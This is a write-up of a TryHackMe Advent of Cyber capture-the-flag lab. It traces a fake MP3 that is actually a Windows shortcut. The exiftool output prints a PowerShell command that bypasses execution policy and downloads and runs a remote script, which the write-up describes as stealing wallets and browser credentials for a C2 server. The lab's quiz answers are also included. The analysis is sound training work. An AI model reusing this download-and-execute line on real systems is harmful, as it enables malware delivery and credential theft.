 # TryHackMe Advent - Day 1: Maybe SOC-mas music, he thought, doesn't come from a store?

## Introduction
This Capture the Flag (CTF) challenge focused on investigating a suspicious website and identifying the malicious actor behind it. The investigation tested skills in malware analysis, operational security (OPSEC), and attribution. 

### Scenario
McSkidy, a seasoned investigator, uncovers a suspicious YouTube-to-MP3 converter website linked to a cyber actor known as "Glitch." Through her investigation, McSkidy discovers a deeper plot involving poor OPSEC practices that reveal the true identity of the attacker.

---

## Learning Objectives
1. **Investigate malicious link files.**
2. **Understand OPSEC and its importance.**
3. **Track and attribute digital identities in cyber investigations.**

---

## Steps and Key Findings

### 1. **Set-up and first look**
After launching the suspicious website, initial observations highlighted risks typical of similar websites, such as malvertising, phishing, and bundled malware.

### 2. **Investigating Files**
- A downloaded `download.zip` file contained two files: `song.mp3` and `somg.mp3`.
- Using the `file` command revealed:
  - `song.mp3`: A legitimate MP3 file.
  - `somg.mp3`: A malicious Windows shortcut (`.lnk`) file.

### 3. **Analyzing the `.lnk` File**
- The `exiftool` utility exposed a PowerShell command embedded in `somg.mp3`:
 ```
exiftool ./download/somg.mp3

ExifTool Version Number         : 12.76
File Name                       : somg.mp3
Directory                       : ./download
File Size                       : 2.2 kB
File Modification Date/Time     : 2024:10:30 14:32:52+01:00
File Access Date/Time           : 2024:12:03 08:50:11+01:00
File Inode Change Date/Time     : 2024:12:01 18:52:13+01:00
File Permissions                : -rw-rw-r--
File Type                       : LNK
File Type Extension             : lnk
MIME Type                       : application/octet-stream
Flags                           : IDList, LinkInfo, RelativePath, WorkingDir, CommandArgs, Unicode, TargetMetadata
File Attributes                 : Archive
Create Date                     : 2018:09:15 09:14:14+02:00
Access Date                     : 2018:09:15 09:14:14+02:00
Modify Date                     : 2018:09:15 09:14:14+02:00
Target File Size                : 448000
Icon Index                      : (none)
Run Window                      : Normal
Hot Key                         : (none)
Target File DOS Name            : powershell.exe
Drive Type                      : Fixed Disk
Drive Serial Number             : A8A4-C362
Volume Label                    : 
Local Base Path                 : C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
Relative Path                   : ..\..\..\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
Working Directory               : C:\Windows\System32\WindowsPowerShell\v1.0
Command Line Arguments          : -ep Bypass -nop -c "(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1','C:\ProgramData\s.ps1'); iex (Get-Content 'C:\ProgramData\s.ps1' -Raw)"
Machine ID                      : win-base-2019
 ```

When accessing the file's content through the browser (`https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1`), I find a script designed to gather highly sensitive information from the victim's system. This includes cryptocurrency wallets and saved browser credentials, which are then sent to an attacker's remote server.

Also, going to the repository we can find a conversation where @MM-WarevilleTHM says that he adapted a C++ script into PowerShell to search for wallet and browser credential files and send data to a C2 server. Seeking help from @Bloatware-WarevilleTHM, they shared their script using Test-Path for file checks and Invoke-WebRequest for data transmission, avoiding C++ complexities like memory management. @Bloatware-WarevilleTHM validated the approach and praised the simplicity, noting the added flair of ASCII art.

## Questions

1. Looks like the song.mp3 file is not what we expected! Run "exiftool song.mp3" in your terminal to find out the author of the song. Who is the author? 

    > Tyler Ramsbey

2. The malicious PowerShell script sends stolen info to a C2 server. What is the URL of this C2 server?

    > http://papash3ll.thm/data

3. Who is M.M? Maybe his Github profile page would provide clues?

    > Mayor Malware

4. What is the number of commits on the GitHub repo where the issue was raised?

    > 1
